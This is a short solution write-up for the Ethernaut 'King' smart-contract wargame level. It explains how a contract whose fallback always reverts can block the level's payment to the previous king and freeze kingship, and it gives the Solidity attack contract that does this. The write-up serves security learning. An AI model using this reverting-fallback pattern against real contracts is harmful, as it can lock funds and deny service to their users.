 # King Ethernaut

## Goals

=> When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

### Hints

- None

### Solution

- The weakness lies in the transfer funds to the previous king function which will trigger the fallback function in another contract, if we just revert in that fallback function, no new king will be set since we always revert.

- Just deploy the Hack contract with a msg.value >= prize and from now on no one can become the new King.

### Contract

```solidity
contract Hack {
    King king;

    constructor(address _king) payable {
        king = King(payable(_king));
        (bool success, ) = payable(king).call{value: msg.value}("");
        require(success, "bid failed");
    }

    fallback() external {
        revert();
    }
}
```

